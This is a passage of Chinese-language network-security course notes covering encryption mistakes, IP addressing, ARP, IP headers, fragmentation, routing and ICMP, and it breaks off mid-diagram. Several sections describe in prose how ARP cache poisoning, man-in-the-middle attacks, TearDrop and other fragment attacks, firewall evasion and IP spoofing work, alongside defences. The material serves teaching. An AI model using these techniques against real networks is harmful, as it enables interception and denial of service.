

- 流程：
1. 每个DVD播放器都有一个主密钥，该密钥是独特的，属于DVD播放器制造商。这个密钥被称为播放器密钥。
2. 播放器从DVD中读取一个加密的磁盘密钥，并使用播放器密钥解密磁盘密钥。由于存在许多播放器密钥（每个制造商都有一个），DVD必须为每个播放器密钥包含一个加密的磁盘密钥的副本。
3. 播放器读取要播放的文件的加密标题密钥。DVD可能包含多个文件，每个文件都有自己的标题密钥。播放器使用解密的磁盘密钥来解密标题密钥。
4. 播放器使用标题密钥来解密内容。
- 加密算法：内容扰乱系统（CSS）。
  - 其安全性取决于其保密性：1999年，乔恩·约翰森（与另外两个匿名人士）对一个软件DVD播放器进行了反汇编，以揭示解扰算法。然后，他们编写并发布了一个名为DeCSS的C代码。
  - 加密密钥只有40位，而且并非所有可能的40位数字都可以作为密钥使用：1999年，一台运行优化代码的高端家用计算机可以在24小时内通过暴力破解破解它，而现代计算机现在可以在几秒钟内暴力破解它。
- 软件播放器有自己的解锁密钥。这就是问题所在。
  - 密钥必须存储在内存中。
  - 内容必须以明文形式出现在内存中。
  - 用户可以对代码进行逆向工程。
  - 用户可以调试代码并在内存中找到密钥。
  - 将逆向工程定为犯罪行为并不是解决办法。不幸的是，这就是DVD行业的发展方向。

##### 加密中的错误：在需要时不使用密码学

> > 《华尔街日报》（2009年12月17日）：叛乱分子黑客入侵美国的无人机。
伊拉克的激进分子使用了26美元的现成软件来拦截美国捕食者无人机的实时视频信号，这可能为他们提供了逃避或监视美国军事行动所需的信息。
高级国防和情报官员表示，伊朗支持的叛乱分子利用一些远程飞行器系统中的未受保护的通信链路拦截了视频信号。伊拉克什叶派战士使用诸如SkyGrabber之类的软件程序，可以在互联网上以低至25.95美元的价格定期捕获无人机的视频信号，据一位熟悉该问题的人士称。
美国官员表示，没有证据表明激进分子能够控制这些无人机或干扰它们的飞行。然而，这些拦截行为可能会使美国的敌人在某些任务中失去突袭的优势，并使叛乱分子更容易确定哪些建筑物正受到美国的监视。
......
无人机的潜在漏洞在于无人机与地面控制之间的未加密下行链路。美国政府自从上世纪90年代在波斯尼亚的战役中就已经知道了这个缺陷，据现任和前任官员称。但是，五角大楼认为当地的对手不会知道如何利用它，官员们说。”......
在七月事件之后，官员们加大了防止叛乱分子拦截视频信号的努力。官员们表示，困难在于将加密技术应用于一个已有十多年历史的网络，不仅仅是在个别无人机上添加新设备那么简单。相反，连接无人机与其操作员在美国、阿富汗或巴基斯坦之间的网络的许多组件都需要升级以适应这些变化。
......
如今，空军正在购买数百架Reaper无人机，这是一种更新的型号，其视频信号可以像Predators一样被拦截，据知情人士透露。一架Reaper的成本在1000万到1200万美元之间，比Predator更快、更强大。

##### 加密中的错误：发明自己的加密算法并保密

- 好的加密算法，如DES、AES和Blowfish，需要由专门从事密码学的聪明人多年开发，然后经过许多其他聪明人的审查。我们看到这些名字的原因是因为迄今为止还没有人破解它们。所有不好的都已经被消除了。
- AES的选择过程：http://en.wikipedia.org/wiki/Advanced_Encryption_Standard_process
- 如果你想在几天甚至几个月内为你的软件发明自己的加密算法，想想那些算法经历了什么。如果这不能阻止你，那么看看以下案例：
  - 案例1：DVD加密 http://www.schneier.com/essay-193.html.
  - 案例2：WEP：是一种废弃的算法，用于保护IEEE 802.11无线网络。从2001年开始，密码分析师发现了几个严重的弱点，结果是现在可以在几分钟内用现成的软件破解WEP连接。
  - 案例3：GSM加密算法被破解。http://www.gsmarena.com/the_gsm_encryption_algorithm_was_broken-news-1347.php.
  - 案例4：3G GSM加密在不到两小时内被破解http://www.engadget.com/2010/01/15/3g-gsm-encryption-cracked-in-less-than-two-hours/
  - 案例5：菲利普·齐默曼，小心蛇油。http://www.philzimmermann.com/EN/essays/SnakeOil.html.
- 保持你的算法秘密并不能帮助太多：逆向工程。
  - 为什么安全通过混淆不起作用。http://slashdot.org/features/980720/0819202.shtml
  - 原则
    原则：加密的安全性应该基于密钥的保密性，而不是算法的保密性。
- 如果你仍然想尝试，那么你要么是一个只想开发更好的加密算法的密码学家，要么你只是疯了。

##### 加密中的错误：糟糕的密钥管理

- 在程序中硬编码密钥，例如迪博尔德。
- 原则

## 互联网架构和IP地址

### (1) TCP/IP互联网简介

- ❖ 互联网架构
  ➢ 物理网络：同一物理网络上的计算机是物理连接的。
  ➢ 不同物理网络上的计算机没有物理连接。
  ¾ IP路由器（或IP网关）：连接两个或多个网络的专用系统。
  ¾ 主机：终端用户系统。它连接到物理网络，每个网络可能有很多主机。



- ❖ TCP/IP互联网的两个视图



- ❖ 数据包传输
  ➢ 源主机：
    ■ 如果目的地在同一物理网络上，直接传递
    ■ 否则，将其发送到路由器
  ➢ 中间路由器：
    □ 目的地不在同一物理网络上，将数据包转发到另一个路由器
  ➢ 最终路由器
    □ 目的地与这个最终路由器物理连接，所以直接将数据包发送到目的地。
- ❖ 路由器是如何工作的？
    ➤ 路由器在转发数据包时需要找到正确的路由。
    ➤ 路由器的决策是基于它们所拥有的路由信息。
        ▫ 路由表：使用目标网络而不是目标主机；否则，表将会非常庞大。

### (2) IP地址

- ❖ 概述
    ➤ 32位二进制值
    ➤ 为每个主机分配的唯一值
    ➤ 选择的值使路由更加高效
- ❖ 点分十进制表示法：
    ➤ 二进制：`10000000 11100110 00000001 00001100`
    ➤ 点分十进制表示法：`128.230.1.12`
- ❖ 分类寻址方案（原始方案，没有持续很长时间）



- ❖ 类别
    ➤ A类: 1.0.0.0 --- 126.0.0.0
    ➤ B类: 128.1.0.0 --- 191.255.0.0
    ➤ C类: 192.0.1.0 --- 223.255.255.0
    ➤ D类: 224.0.0.0 --- 239.255.255.255
    ➤ E类: 240.0.0.0 --- 255.255.255.254
    ➤ 例子: IBM (9.0.0.0), AT&T (12.0.0.0), 雪城大学 (128.230.0.0)
- ❖ 类别化寻址方案的特点是什么？
    ➢ 它们是自我识别的：从地址中可以自我解释出网络标识和主机标识的边界。这对路由有益，因为路由表的条目主要使用网络标识，而不是整个IP地址。
- ❖ 特殊地址
    ➢ 255.255.255.255: 有限广播（本地网络）
    ➢ 0.0.0.0: 这个主机。 只能用作源地址。 在计算机知道自己的IP地址之前，在引导启动期间使用。“0”表示THIS。
    ➢ 网络+所有1s: 网络的定向广播
    ➢ 127.任何内容（通常为1）：环回。
- ❖ 无类地址分配方案（于1990年代设计）
    ➢ 允许在任意位置进行前缀和后缀的划分。
    ➢ 允许更完整地利用地址空间。

### (2) CIDR: 无类域间路由

- a) 互联网部分+本地部分
- b) 互联网部分+物理网络+主机
    i) 示例：IP: 128.230.211.195。网络掩码FFFFF800
    ii) 128 = 1000 0000，230 = 1110 0110，211 = 11010011
    iii) CIDR表示是什么？最低IP和最高IP地址是什么？
    iv) Apollo (128.230.208.46) 是否在同一子网上？208 = 1101 0000

### (2) 保留的地址前缀

- a) 10/8        10.0.0.0 - 10.255.255.255
- b) 172.16/12  172.16.0.0 - 172.31.255.255
- c) 192.168/16 192.168.0.0 - 192.168.255.255
- d) 169.254/16 169.254.0.0 - 169.254.255.255

#### ARP协议

#### (1) 以太网地址

- 以太网硬件地址
    - 48位唯一编号。
    - 地址可以是单播、广播（全为1）或组播地址。
- 以太网帧格式
    - 机器之间的链路级连接
    - 八位字节：
        - 为什么不用字节（字节指硬件相关的字符大小）
        - 八位组指的是所有计算机上的8位数量。
    - 前导码和CRC：在将帧放入线路时添加到以太网帧中。在帧存入计算机内存之前，硬件将其删除。使用嗅探器无法看到它们。
    - 帧类型：例如，ARP的帧类型为0806（以太网上的ARP）。
    - 最大尺寸：1500个八位组。
- 一个例子
    - 目标地址为02 07 01 00 27 ba
    - 源地址为08 00 2b 0d 44 a7
    - 帧类型为08 00（IP）

| Preamble | Destination Address | Source Address | Frame Type | Frame Data | CRC |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 8 octets | 6 octets | 6 octets | 2 octets | 46–1500 octets | 4 octets |

```
02 07 01 00 27 ba 08 00 2b 0d 44 a7 08 00 45 00
00 54 82 68 00 00 ff 01 35 21 80 0a 02 03 80 0a
02 08 08 00 73 0b d4 6d 00 00 04 3b 8c 28 28 20
0d 00 08 09 0a 0b 0c 0d 0e 0f 10 11 12 13 14 15
16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22 23 24 25
26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32 33 34 35
36 37
```## (2) ARP协议

#### 动机
- 以太网接口卡能识别哪个地址？
  - 以太网地址（48位地址，通常在硬件中硬编码）
- 计算机使用IP地址与其他计算机通信，这样可以方便地进行Internet路由。
- 一旦数据包到达局域网，必须使用物理地址（如以太网地址）
  - 如何找到以太网地址？ 发送方通常不知道接收方的物理地址。他们不需要知道。

#### ARP协议
- A机器想要向B发送数据包，但A只知道B的IP地址
- A机器广播带有B的IP地址的ARP请求
- 局域网上的所有机器都会接收到广播
- B机器回复其物理地址
- A机器将B的地址信息添加到其表中
- A机器直接将数据包传递给B

#### ARP封装
- 在以太网中，ARP的帧类型为0806

**以太网格式**
| Preamble | Destination Address | Source Address | Frame Type | Frame Data | CRC |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 8 octets | 6 octets | 6 octets | 2 octets | 46-1500 octets | 4 octets |

#### ARP数据包格式
- 该格式足够通用，可以与任意物理地址和任意协议地址一起使用。
- 硬件类型 (2) ：以太网为1
- 协议类型 (2) ：高层协议地址的类型，例如IP协议的0800。
- HLEN (1) ：硬件地址的长度
- PLEN (1) ：高层协议地址的长度（例如IP)
- 操作 (2) ：ARP请求=1，ARP回复=2，RARP请求=3，RARP响应=4
- 发送方硬件地址 (6)
- 发送方IP地址 (4)
- 目标硬件地址 (6)
- 目标IP地址 (4)

#### ARP缓存
- 为了减少通信成本，使用ARP的计算机会维护一个最近获取的IP到物理地址绑定的缓存。
- 每个条目都有一个定时器（通常超时时间为20分钟）
- 发送方的IP到地址绑定包含在每个ARP广播中；接收方在处理ARP数据包之前会更新其缓存中的IP到物理地址绑定信息。
- ARP是无状态的，大多数操作系统在接收到ARP回复时会更新其缓存，无论它们是否实际发送了请求。
- 无偿消息（源IP = 目标IP，操作码 = 2：回复）
  - 相同的IP地址用于源IP和目标IP。这在IP堆栈初始化期间用于查找该IP地址是否被其他主机使用。
  - 拥有相同IP的人回复（此消息是广播）。否则，每个主机更新其缓存。

### (3) ARP缓存中毒

#### 问题：根据ARP缓存的工作原理，你如何进行攻击？
- 首先，你如何修改目标机器的ARP缓存？
- 其次，如果你能够实现ARP缓存中毒，你如何利用这种技术来危害受害者的安全？

#### ARP缓存中毒
- 通过发送伪造的ARP回复，可以使目标系统相信将帧发送到另一台计算机。
- 有多种方法可以进行缓存中毒：ARP“who is”广播，ARP回复，无偿ARP消息等。
- 根据对Windows 9x、NT、2000、XP、Solaris 8、Linux内核2.2和2.4、Cisco IOS 12、Nokia IPSO 3.5操作系统的测试，总是至少有一种ARP消息来毒化缓存。
- 此外，在Windows系统（9x/NT/2K）上，静态ARP条目总是可以使用伪造的ARP消息进行覆盖。

#### 中间人攻击
- 一些服务器使用IP地址进行身份验证。这适用于许多应用程序，如Apache ACL、r-commands、NFS、TCP Wrapper、受限管理工具等。
- 目标：服务器信任T的IP地址；恶意主机E想要连接到服务器。
- 方法：让服务器相信恶意主机（E）具有合法的IP地址。
  - 设置：恶意主机E、受信任主机T和服务器S。
  - E：ARP缓存中毒
  - E：转发现有的从服务器到T的流量
  - E：使用T的IP与S进行通信。
- 问题：T可能广播新的ARP，这可以纠正S的ARP缓存。然后，S发送TCP回复给T，T将向S发送TCP复位（因为S和T之间不存在这样的TCP连接）。这将终止恶意主机与S的连接。
- 如何防止这种情况发生？--->讨论
  - 关闭T（拒绝服务）
  - 向S发送伪造的ARP消息
  - 防止T发送ARP广播：如何做到？在T需要它们之前给予T一切。

#### 其他攻击：任何基于IP的身份验证
- 绕过防火墙：许多防火墙只允许从少数已识别的计算机发出流量。恶意主机（E）可以通过缓存投毒规避此规则。

### 如何防止ARP缓存投毒攻击？

使用入侵检测工具：检测伪造的ARP消息并维护ARP表的一致性。在许多UNIX平台上可用的arpwatch会维护一个网络上看到的以太网MAC地址的数据库，以及它们关联的IP对。如果发生任何变化，通过电子邮件向系统管理员发出警报。

- 使用强身份验证而不是源IP地址。VPN协议如SSH、SSL或IPSec可以通过实现身份验证、完整性和机密性来大大提高安全性。

## 互联网协议（IP）

### (1) 互联网协议

#### 互联网架构和哲学
- TCP/IP互联网提供了如下图所示的三组服务

#### 无连接传递系统
- 最基本的互联网服务包括一个数据包传递系统，它是不可靠的、尽力而为的和无连接的。
- 不可靠的：数据包可能丢失、重复、延迟或乱序传递。
- 无连接的：每个数据包都独立处理，与其他数据包无关。
- 尽力而为的：互联网软件会尽力传递数据包。

#### 互联网协议的目的
- IP协议定义了数据传输的基本单元（IP数据报）
- IP软件执行路由功能
- IP包括一组规则，体现了不可靠的数据包传递的思想：
  - 主机和路由器应如何处理数据包
  - 何时以及如何生成错误消息
  - 数据包可以被丢弃的条件

#### IP数据报封装
**以太网的IP数据报封装**

### (2) IP头部

#### IP头部格式
| 字段 | 位位置 |
|------|--------|
| VERS | 0-3 |
| HLEN | 4-7 |
| TYPE OF SERVICE | 8-15 |
| TOTAL LENGTH | 16-31 |
| IDENT | 0-15 |
| FLAGS | 16-18 |
| FRAGMENT OFFSET | 19-31 |
| TTL | 0-7 |
| TYPE | 8-15 |
| HEADER CHECKSUM | 16-31 |
| SOURCE IP ADDRESS | 0-31 |
| DESTINATION IP ADDRESS | 0-31 |
| IP OPTIONS | 可变 |
| PADDING | 可变 |
| PAYLOAD | ... |

#### VERS: 当前版本为4，即IPv4
- IPv6的提案，将具有不同的头部

#### HLEN: 头部长度，以32位字为单位
- 通常为5，即20个八位字节的IP头部
- 最大60字节
- 头部可以是可变长度（IP选项）

#### 服务类型
- 3位优先级字段（未使用），4位TOS字段，1位未使用的位设置为0
- TOS位1（最小延迟），2（最大吞吐量），3（最大可靠性），4（最小成本）：只能设置一个
- 通常都为零，用于提供尽力而为的服务
- DiffServ建议使用TOS来进行IP QOS

#### 总长度
- 数据报的字节数
- 最大大小为65535字节（64K-1）

#### 标识符、标志、片偏移
- 用于分片和重组，稍后会讨论

#### TTL（生存时间）
- 数据报可以通过的路由器数量上限
- 由发送方初始化，并在每个路由器上递减。当为零时，丢弃数据报。这样可以防止路由环路
- 示例：`ping -t TTL IP` 允许我们指定TTL字段
- 问题：普通用户不应该能够修改TTL字段，ping是如何做到的？（SetUID概念）

## 问题：如何实现traceroute？即如何找到到达目的地的路由器（不使用IP选项）？

- 使用TTL=1,2,3...

```
% ping -t 20 www.dell.com
输出：www.dell.com存活
--------------------------------------------------------------------------------
% ping -t 10 www.dell.com
输出：ICMP传输中超时
      hagg-01-ge-1-3-0-508.ausu.twtelecom.net (66.192.253.165)
      对来自enyo (128.230.208.110) 到www.dell.com
      (143.166.83.230) 的ICMP进行传输时超时
```

#### 类型
- IP需要知道将接收到的IP数据报交给哪个协议处理
- 本质上，它指定了数据区的格式
- 将传入的IP数据报解复用为UDP、TCP、ICMP之一...

#### 头部校验和
- 16位1的补码校验和
- 仅在头部计算
- 每跳重新计算

#### IP数据报的示例
- 头部长度：20个八位字节
- 类型：01 (ICMP)
- 源IP：128.10.2.3
- 目标IP：128.10.2.8

#### 以太网帧封装的IP数据报示例
| | | | | | | | | | | | | | | | |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
|02|07|01|00|27|ba|08|00|2b|0d|44|a7|08|00|**45**|00|
|00|54|82|68|00|00|ff|01|35|21|80|0a|02|03|80|0a|
|02|08|08|00|73|0b|d4|6d|00|00|04|3b|8c|28|28|20|
|0d|00|08|09|0a|0b|0c|0d|0e|0f|10|11|12|13|14|15|
|16|17|18|19|1a|1b|1c|1d|1e|1f|20|21|22|23|24|25|
|26|27|28|29|2a|2b|2c|2d|2e|2f|30|31|32|33|34|35|
|36|37| | | | | | | | | | | | | | |

#### IP选项

- IP选项字段不是每个数据报都需要的
- 选项主要用于网络测试或调试。
- IP选项字段的长度取决于选择了哪些选项。

##### 记录路由选项

- 发送方在选项中分配足够的空间来存储路由器的IP地址（即，在选项字段中包含一个空列表）
- 每个路由器将其IP地址记录到记录路由列表中
- 如果列表已满，路由器将停止添加到列表中
- 示例：`ping -R`（在Solaris上）

```
% ping -R -v -s www.yahoo.com
输出:
IP选项: <记录路由> 128.230.93.1, 128.230.85.1,
67.99.63.126, L0.al.nwyk.broadwing.net (216.140.10.58),
216.140.10.197, L0.al.nwak.broadwing.net (216.140.8.250),
Broadwing-Level3-oc12.NewYork1.Level3.net (63.211.54.70),
ge-5-0.core1.NewYork1.Level3.net (4.68.97.40),
lo-0.bbr2.NewYork1.Level3.net (209.247.8.252)
```

##### 时间戳选项

- 与记录路由选项类似
- 路径上的每个路由器填写一个32位整数时间戳

##### 源路由

- 它为发送方提供了在互联网上指定路径的方法。
- 严格源路由
  - 地址列表指定数据报到达目的地必须遵循的确切路径
  - 如果路由器无法遵循严格的源路由，则会发生错误
- 松散源路由
  - 地址列表指定数据报必须按照IP地址的顺序进行传输，但允许在列表上的连续地址之间进行多次网络跳跃
- 问题：这两种类型的源路由是如何实现的？

### (3) IP分片

#### 为什么我们需要分片？
- MTU：最大传输单元
- 一个IP数据报可以包含最多65535个八位字节（包括头部）
- 网络硬件限制帧的最大大小（例如，以太网限制为1500个八位字节，即MTU=1500；FDDI限制为约4470个八位字节/帧）

#### 需要分片的示例

#### IP分片
- 路由器根据MTU将IP数据报分成几个较小的片段
- 片段使用与数据报相同的头格式
- 每个片段独立路由

#### IP数据报如何分片？
- 标识：用于标识IP数据报的唯一编号；具有相同标识符的片段属于同一个IP数据报
- 片段偏移：
  - 指定数据在原始数据报中的位置
  - 8个八位字节的倍数
- 标志：
  - 位0：保留
  - 位1：不分片
  - 位2：更多片段。在最后一个片段中关闭此位（问题：为什么我们需要这个位？答：每个片段中的总长度字段指的是片段的大小，而不是原始数据报的大小，因此如果没有此位，目的地不知道IP数据报的大小）

#### IP分片的一个例子

#### 例子：头部 + 400 + 400 + 400
- 头部1：FLAGS=001，OFFSET=0
- 头部2：FLAGS=001，OFFSET=400/8=50
- 头部2：FLAGS=000，OFFSET=800/8=100

#### IP分片是如何重新组装的？
- 在将数据报传递给上层之前，数据报的所有IP分片将被组装在一起。
- 它们应该在哪里组装？在路由器还是目的地？
  - 它们在目的地组装。
- IP重组使用定时器。如果定时器超时并且仍然有丢失的片段，所有片段将被丢弃。

### 问题：如果您正在实施IP分片，您需要考虑哪些（恶意）情况？恶意情况是由对手有意制造的情况，而不是自然发生的情况。
- 如果你永远没有得到最后一个丢失的部分，你会怎么做？
- 如果你得到重叠的片段，你该怎么办？
- 如果一个片段的最后一个字节超过了IP数据包的最大大小，即所有重组的片段的大小大于IP数据包的最大大小，你该怎么办？

##### 攻击1：拒绝服务攻击
- 第一个片段：偏移量 = 0
- 第二个片段：偏移量 = 64800
- 结果：目标机器将分配64千字节的内存，通常保持15到255秒。Windows 2000、XP和几乎所有版本的Unix都存在漏洞。

##### 攻击2：TearDrop
- 发送一个数据包：
  - 偏移量 = 0
  - 有效载荷大小N
  - 更多片段位开启
- 第二个数据包：
  - 更多片段位关闭
  - 偏移量 + 有效载荷大小 < N
  - 即第二个片段完全位于第一个片段内。
- 当操作系统尝试将这两个片段合并时，会导致崩溃。

##### 针对防火墙的重叠攻击
- 许多防火墙分别检查数据包。当过滤规则基于TCP头部时，但TCP头部被分段时，规则将失效。
- TCP头部位于IP数据包的数据区的开头。
- 防火墙经常检查TCP头部：例如，用于连接请求的SYN数据包。
  - 微小分段攻击：假设防火墙只检查偏移量为0的数据包。
  - 重叠攻击：假设防火墙只检查偏移量为0的数据包。

### (4) IP欺骗

- 欺骗:
  - 任何主机都可以发送伪装成任何IP地址的数据包
  - 回复将被路由到适当的子网。
- 出口（出站）过滤
  - 删除不能来自您网络的数据包；然而，它对您没有直接好处，所以很少有人这样做。
- 入口（入站）过滤: 删除来自无效（例如本地）地址的数据包。
- 要进行IP欺骗，需要超级用户权限。

### (5) 路由

- 路由器 vs. 主机
  - 路由器直接连接两个或多个网络，具有多个网络卡和多个IP地址。
  - 主机通常直接连接到一个物理网络。
- 直接传递和间接传递
  - 直接传递：可以通过一个网络到达最终目的地
  - 间接传递：需要中间人（路由器）
- 路由表
  - 路由器用于决定如何发送数据报
  - 只存储沿路径的下一个路由器的地址
  - 该方案被称为下一跳路由
  - （我们将在后面讨论如何构建路由表）
- 下一跳路由
  - 目标IP地址不会改变，使用下一跳的MAC地址。
  - 路由表条目（路由器R的IP地址为20.0.0.6和30.0.0.6）：

#### 主机特定路由
- 允许指定每个主机的特殊情况路由

#### 默认路由
- 只有在表中没有其他匹配项时才选择
- 特别适用于主机。

#### IP路由算法
1. 提取目标IP地址D，并计算网络前缀N；
2. N是否为相同网络？
3. 是否存在D的特定路由？
4. 是否存在N的路由？
5. 是否存在默认路由？
6. 报告错误。

#### 处理传入数据报
- 主机：接受或丢弃。不转发。禁止主机尝试转发意外路由到错误机器的数据报。为什么？
- 路由器：接受或转发。
  - 转发：减少TTL字段，重新计算头部校验和。
  - 丢弃：TTL=0；向源发送错误消息。

#### 操作路由表
- route命令（Linux，Windows，Solaris）

## ICMP协议及其安全性

### 1 ICMP协议（Internet控制消息协议）

#### 动机
- IP可能无法传递数据报，因为
  - 目标不可用
  - 生存时间计数器过期
  - 路由器拥塞
- 我们需要让发送者知道发生了什么
- ICMP是IP的必需部分

#### 目的
- ICMP允许路由器（和主机）向其他路由器或主机发送错误或控制消息
- ICMP在一台机器上的Internet协议软件和另一台机器上的Internet协议软件之间提供通信

#### 限制
- 不会为携带ICMP错误消息的数据报生成ICMP消息。为什么？
- ICMP只发送给原始源。为什么？

#### ICMP封装
- ICMP封装在IP数据包中，但被视为IP或互联网层的一部分。

### 2 ICMP消息

#### 常见的ICMP头
- 每个ICMP消息都有自己的格式，它们都以相同的三个字段开头
- 类型（8位）：标识消息
- 代码（8位）：提供有关消息类型的更多信息
- 校验和（16位）
- 此外，报告错误的ICMP消息始终包括头部和导致问题的数据报的前64个数据位。

#### ICMP消息类型
- 0: 回显应答
- 3: 目的地不可达
- 4: 源站抑制
- 5: 重定向（更改路由）
- 8: 回显请求
- 9: 路由器通告
- 10: 路由器请求
- 11: 数据报超时
- 12: 数据报参数问题
- 13: 时间戳请求
- 14: 时间戳应答
- 17: 地址掩码请求
- 18: 地址掩码应答

## ●回显请求和回显应答消息（类型为8和类型为0）
- 用于测试可达性
- 回显请求/应答数据包的格式如下：

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     类型      |     代码      |          校验和             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|          标识符               |          序列号             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                             数据...                          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

- 回显请求还可以包含可选数据（内容无关紧要）。
- 回显应答始终返回与请求中接收到的完全相同的数据。
- ICMP回显请求/应答消息由ping程序使用。

## ●目的地不可达（类型为3）
- 当路由器无法转发或传递IP数据报时，它会向原始源发送一个目标不可达的消息。
- 数据包的格式如下：

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     类型 = 3  |     代码      |          校验和             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                             未使用                           |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|               互联网头部 + 原始数据数据报的64位               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

- CODE字段指定了详细信息
- 0: 网络不可达
- 1: 主机不可达
- 2: 协议不可达
- 3: 端口不可达
- 4: 需要分段并设置DF（不分段）
- 5: 源路由失败
- 代码0、1、4和5可能来自网关。
- 代码2和3可能来自主机。
- 此ICMP数据包中附加了IP头部和原始数据包的前64位。

#### 源阻塞
- 用于处理拥塞和数据报流量控制
- 当路由器被流量淹没时，称为拥塞。
- 一台机器使用ICMP源封锁消息向原始源报告拥塞情况
- 没有ICMP消息可以撤销源封锁的效果。通常情况下，当不再收到源封锁请求时，主机逐渐增加速率。

#### 路由重定向
- ICMP路由重定向消息的格式：

```
0         1         2         3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     类型      |     代码      |          校验和               |
